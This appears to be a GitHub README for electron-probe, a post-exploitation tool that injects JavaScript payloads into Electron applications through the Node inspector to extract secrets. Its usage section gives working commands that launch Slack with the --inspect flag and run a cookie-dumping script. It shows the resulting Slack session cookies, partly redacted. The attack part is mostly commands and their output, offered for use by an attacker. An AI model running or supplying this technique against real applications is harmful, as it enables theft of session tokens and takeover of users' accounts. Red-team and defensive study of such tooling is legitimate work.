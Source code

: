 # electron-probe

Electron-Probe leverages the Node variant of the Chrome Debugging Protocol to execute JavaScript payloads inside of target Electron applications. This allows an attacker to extract secrets and manipulate the application as part of their post-exploitation workflow.

## Usage
Launch the Electron app target with the `--inspect` flag to start the V8 Inspector:
```
$ /Applications/Slack.app/Contents/MacOS/Slack --inspect

Debugger listening on ws://127.0.0.1:9229/b84df45f-b494-4e18-b77c-d8ed8f34c44d
For help, see: https://nodejs.org/en/docs/inspector
Initializing local storage instance
(node:82531) [DEP0005] DeprecationWarning: Buffer() is deprecated due to security and usability issues. Please use the Buffer.alloc(), Buffer.allocUnsafe(), or Buffer.from() methods instead.
(Use `Slack --trace-deprecation ...` to show where the warning was created)
[08/29/21, 19:12:21:841] info:
╔══════════════════════════════════════════════════════╗
║      Slack 4.18.0, darwin (Store) 20.6.0 on x64      ║
╚══════════════════════════════════════════════════════╝
```

Then, use electron-probe to inject your payloads: 

```
$ ./electron-probe -inspect-target http://localhost:9229 -script scripts/dump_slack_cookies.js | jq 

[
  [... SNIP]
    {
    "name": "ssb_instance_id",
    "value": "90d5538e- [ REDACTED ]",
    "domain": ".slack.com",
    "hostOnly": false,
    "path": "/",
    "secure": false,
    "httpOnly": false,
    "session": false,
    "expirationDate": 1945639889,
    "sameSite": "unspecified"
  },
  {
    "name": "d",
    "value": "aX9QnD8F [ REDACTED ]",
    "domain": ".slack.com",
    "hostOnly": false,
    "path": "/",
    "secure": true,
    "httpOnly": true,
    "session": false,
    "expirationDate": 1941391182.507454,
    "sameSite": "lax"
  },
 [ SNIP ]
]
```

There is a small set of example scripts in the `scripts` directory to get you started.

## TODO
I plan to add support very soon for packing payload scripts into `electron-probe` at build time using the Go [embed](https://pkg.go.dev/embed) package so that they're not separate files.
